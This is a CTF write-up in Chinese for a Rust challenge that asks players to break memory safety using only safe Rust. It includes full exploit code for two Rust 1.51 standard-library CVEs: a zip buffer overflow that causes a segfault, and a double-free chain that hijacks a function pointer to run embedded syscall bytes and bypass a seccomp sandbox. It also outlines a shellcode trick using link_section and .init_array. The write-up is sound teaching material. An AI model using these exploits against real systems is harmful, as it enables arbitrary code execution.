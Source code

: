 # [Binary] 编原译理习题课 · 实验班

- 命题人：lrh2000（题面：某学院的学生）
- Flag 1：200 分
- Flag 2：500 分

## 题目描述

<blockquote>
<p>某学院的学生走进一家酒吧，发现酒吧每两个小时才营业一次，需要事先预定。</p>
<p>某学院的学生走进一家酒吧，发现很多人并没有事先预定，把吧台占满了。</p>
<p>某学院的学生走进一家酒吧，发现要扫两次码才能启动点单小程序。</p>
<p>某学院的学生走进一家酒吧，发现保安不让把手机带进去，因为手机是大功率电器。</p>
<p>某学院的学生走进一家酒吧，发现酒吧的暖气响个不停。</p>
<p>某学院的学生走进一家酒吧，发现酒吧包间的隔音很差。</p>
<p>某学院的学生走进一家酒吧，发现天花板上贴的墙纸掉了下来。</p>
<p>某学院的学生走进一家酒吧，发现酒吧门口施工把电线挖断了。</p>
<p>某学院的学生走进一家酒吧，发现酒吧门口施工把水管也挖断了。</p>
<p>某学院的学生走进一家酒吧，发现酒吧突然开始消防演习，烟雾熏了一脸。</p>
<p>某学院的学生走进一家酒吧，发现酒吧无线网的 IPv6 无法正常工作。</p>
<p>某学院的学生走进一家酒吧，发现收银台在施工，结账需要绕到后厨。</p>
<p>某学院的学生走进一家酒吧，发现老板娘在的日子就不供应鸡尾酒。</p>
<p>某学院的学生走进一家酒吧，发现点的饮品需要自己在 7 点前去门口领取。</p>
<p>某学院的学生走进一家酒吧，发现进入酒吧的顾客如果不每天做核酸就会被老板电话轰炸。</p>
<p>这个学生很生气，模仿一位测试工程师在酒吧里编译他的代码，想要炸掉酒吧。</p>
<p>可惜他学习的编程语言是 Rust，怎么也不炸。他愤怒地大叫 “你不要咄咄逼人！”</p>
<p>酒吧炸了。但他的编译器仍然完好无损。</p>
</blockquote>
<p>请提交一段 Safe Rust 代码，<strong>让程序出现段错误</strong>可以获得 Flag 1，<strong>读取打开的 /flag2 文件</strong>获得 Flag 2。</p>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<p>以下两个提示二选一即可：</p>
<ul>
<li><a target="_blank" rel="noopener noreferrer" href="https://github.com/Qwaz/rust-cve">Rust CVEs 合集</a></li>
<li><a target="_blank" rel="noopener noreferrer" href="https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute">link_section 属性</a></li>
</ul>
</div>

**【终端交互：连接到题目】**

**[【附件：下载题目源码（prob13-src.zip）】](attachment/prob13-src.zip)**

## 预期解法

预期考察点是有问题的unsafe代码（即Rust标准库中的CVE）可以被safe代码利用。

题目公开的源代码，可以从Dockerfile中看到了使用的Rust版本是1.51，谷歌搜索Rust CVE即可找到[相关合集](https://github.com/Qwaz/rust-cve)，并且Rust 1.51有两个严重的内存安全漏洞，分别是[缓冲区溢出（CVE-2021-28879）](https://github.com/rust-lang/rust/issues/82282)和[内存重复释放（CVE-2021-31162）](https://github.com/rust-lang/rust/issues/83618)。

注意到这两个漏洞都附上了PoC，[第一个漏洞的PoC](https://play.rust-lang.org/?version=stable&mode=release&edition=2018&gist=0e6f0c70e6aaaba62610f19fd9186756)可以使得程序段错误，[第二个漏洞的PoC](https://play.rust-lang.org/?version=stable&mode=debug&edition=2018&gist=9ee0a0b525970bc4ea2dc87e35aeda3a)可以触发libc的`free(): double free detected in tcache`以及程序终止（但并不是段错误）。

阅读题面可知获得Flag 1的条件是使得程序出现段错误，因此只要将相应的第一个PoC复制粘贴，修改主函数函数名即可（因而，获得Flag 1并不需要会Rust）：
```rust
#![forbid(unsafe_code)]

fn overflowed_zip(arr: &[i32]) -> impl Iterator<Item = (i32, &())> {
    static UNIT_EMPTY_ARR: [(); 0] = [];

    let mapped = arr.into_iter().map(|i| *i);
    let mut zipped = mapped.zip(UNIT_EMPTY_ARR.iter());
    zipped.next();
    zipped
}

pub fn run() {
    let arr = [1, 2, 3];
    let zip = overflowed_zip(&arr).zip(overflowed_zip(&arr));

    dbg!(zip.size_hint());
    for (index, num) in zip.map(|((num, _), _)| num).enumerate() {
        println!("{}: {}", index, num);
    }
}

//EOF
```

虽然Flag 2只需要打开并读取一个文件，但是阅读源码可知本题通过`seccomp`沙箱限制了系统调用，导致没法办法直接调用Rust库函数打开新的文件，尽管可以在已经打开的文件描述符上直接读取，但这是Rust的safe API不支持的操作。

这部分的预期解是对上面两个CVE中的任意一个进行漏洞利用，例如嵌入shellcode并且篡改函数指针指向该shellcode，这样就可以执行任意代码、调用任意系统调用。缓冲区溢出和内存重复释放都可以破坏Rust类型系统的约束，能较容易地做到这一点（在熟悉Rust语言的前提下），下面的示例代码是基于后者完成的：
```rust
#![forbid(unsafe_code)]

use std::{convert::TryInto, iter::FromIterator, thread};

enum Evil<'a> {
    DoubleFree {
        _victim: Box<[u8; 64]>,
        mem: &'a mut Memory,
    },
    DropPanic(),
}

impl<'a> Drop for Evil<'a> {
    fn drop(&mut self) {
        match self {
            Self::DropPanic() => {
                if !thread::panicking() {
                    panic!();
                }
            }
            Self::DoubleFree { _victim: _, mem } => {
                if thread::panicking() {
                    mem.data = Some(Box::new([0; 64]));
                }
            }
        }
    }
}

struct Memory {
    data: Option<Box<[u8; 64]>>,
}

impl Drop for Memory {
    fn drop(&mut self) {
        match &mut self.data {
            Some(mem) => use_after_free(mem),
            None => (),
        }
    }
}

struct Layout<'a> {
    func: fn(u64, u64, u64, u64) -> u64,
    data: &'a mut [u8; 64],
    _padding: [u64; 6],
}

fn use_after_free(mem: &mut Box<[u8; 64]>) {
    let mut arr = [0; 64];
    let mut layout = Box::new(Layout {
        func: syscall,
        data: &mut arr,
        _padding: [233; 6],
    });

    println!(
        "syscall: 0x{:08x}",
        u64::from_le_bytes(mem[0..8].try_into().unwrap()),
    );

    mem[0] = mem[0].checked_add(1).unwrap();
    exploit(&mut layout);
}

fn exploit(layout: &mut Layout) {
    let syscall = layout.func;
    let buffer = layout.data as *mut _;

    syscall(3, buffer as u64, 64, 0);
    syscall(1, buffer as u64, 64, 1);
}

pub fn run() {
    let mut mem = Memory { data: None };

    let vec = Vec::from_iter(
        vec![
            Evil::DoubleFree {
                _victim: Box::new([0; 64]),
                mem: &mut mem,
            },
            Evil::DropPanic(),
        ]
        .into_iter()
        .take(0),
    );
    println!("len: {}", vec.len());
}

pub fn syscall(_arg0: u64, _arg1: u64, _arg2: u64, _sysnr: u64) -> u64 {
    //    0:   91                      xchg   %eax,%ecx
    //    1:   0f 05                   syscall
    //    3:   c3                      ret
    return 0xc3050f91;
}

//EOF
```

## 被干掉的以及没有被干掉的非预期解们

本题的初始版本没有将编译阶段和程序运行阶段分开，从而使得两个flag文件在程序编译阶段均可见，此时可以通过Rust的内置宏`include_str!("/flagX")`将本题目两个flag直接读出。感谢 @xmcp 在验题阶段发现了这一问题，赛时的最终版本保证了flag文件在编译时均不可见，从而避免了这一非预期解（实际比赛时发现该解法在本题放出几个小时内就被选手们进行了尝试）。

然而本题还是被非预期解打爆了，Rust提供了[`link-section`属性](https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute)，这允许程序将函数放在不可执行节（如`.data`），从而制造段错误；这也允许程序在`.text`节直接嵌入shellcode，并在`.init_array`节创建一个指向该shellcode的变量，这样的程序在主函数开始运行前，libc会首先对`.init_array`进行处理，进而触发嵌入shellcode的执行。具体可参考优秀选手WP（TODO：补充具体链接）。

此外还有选手发现Rust存在[长期悬而未决的不完备性（unsoundness）问题](https://github.com/rust-lang/rust/issues/84591)，通过这类问题也可以在只编写safe Rust代码的前提下通过破坏内存做到任意代码执行。具体细节同样可参考优秀选手WP（TODO：补充具体链接）。

